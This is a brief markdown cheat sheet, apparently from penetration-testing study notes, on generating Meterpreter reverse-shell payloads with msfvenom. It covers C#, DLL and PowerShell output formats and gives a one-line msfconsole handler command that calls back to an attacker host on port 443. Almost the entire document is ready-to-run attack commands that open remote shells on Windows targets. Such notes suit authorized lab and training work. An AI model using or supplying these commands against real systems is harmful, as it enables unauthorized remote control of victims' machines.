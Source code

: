# Msfvenom

* C Sharp Meterpreter Shellcode
  * Always use `windows/x64/meterpreter/reverse_https` if tcp payload doesn't work!!

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
```

* Metasploit's Exploit Handler (One-liner)

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```



<details>

<summary>Other Shellcode</summary>

* DLL

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=443 EXITFUNC=thread -f dll -o met.dll
```

* Powershell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
```

</details>

